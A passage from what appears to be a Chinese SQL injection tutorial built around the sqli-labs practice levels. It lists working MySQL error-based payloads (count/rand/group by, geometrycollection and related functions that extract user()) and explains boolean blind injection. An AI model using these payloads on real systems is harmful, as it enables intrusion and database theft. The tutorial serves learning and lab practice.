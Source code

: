 ```mysql
http://172.16.0.1/Less-5/?id=1' and (select count(*) from information_schema.tables group by concat(user(),floor(rand(0)*2))) -- +
```

只要是count，rand()，group by三个连用就会造成这种报错，与位置无关。

#### 函数特性报错

- geometrycollection() 

```mysql
and geometrycollection((select * from(select * from(select user())a)b))-- + 
```
- multipoint()

```mysql
and multipoint((select * from(select * from(select user())a)b))-- +
```
- polygon() 

```mysql
and polygon((select * from(select * from(select user())a)b))-- +
```
- multipolygon() 

```mysql
and multipolygon((select * from(select * from(select user())a)b))-- +
```
- linestring() 

```mysql
and linestring((select * from(select * from(select user())a)b))-- +
```
- multilinestring() 

```mysql
and multilinestring((select * from(select * from(select user())a)b))-- +
```

### 盲注
盲注指的是没有回显，但是能根据我们构造的sql条件返回不同响应，而盲注跑出数据相对较麻烦
#### 布尔型的盲注
适用于对条件真假返回不同响应的注入
以sqlilabs第6关举例
```mysql
http://go.go/sqli-labs/Less-6/?id=1" SQL语句报错
http://go.go/sqli-labs/Less-6/?id=1" and 1=1 -- + 返回正常
http://go.go/sqli-labs/Less-6/?id=1" and 1=2 -- + 返回不正常
```
![](https://y4er.com/img/uploads/20190430180557.png)
当and条件1=1为真时，页面返回`You are in...........`
and条件1=2为假时
![](https://y4er.com/img/uploads/20190430180906.png)
`You are in...........`不显示，那么这就是一个布尔型的MySQL盲注。
